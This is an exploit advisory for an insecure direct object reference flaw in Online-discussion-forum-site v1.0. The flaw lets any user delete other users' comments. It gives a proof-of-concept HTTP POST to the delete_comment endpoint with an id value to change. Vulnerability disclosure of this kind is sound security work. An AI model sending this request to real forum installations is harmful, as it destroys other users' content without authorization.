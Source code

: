 # Exploit Title: Online-discussion-forum-site v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Online-discussion-forum-site v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete comment that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /odfs/classes/Master.php?f=delete_comment HTTP/1.1
...

id=6(CHANGE HERE)
```
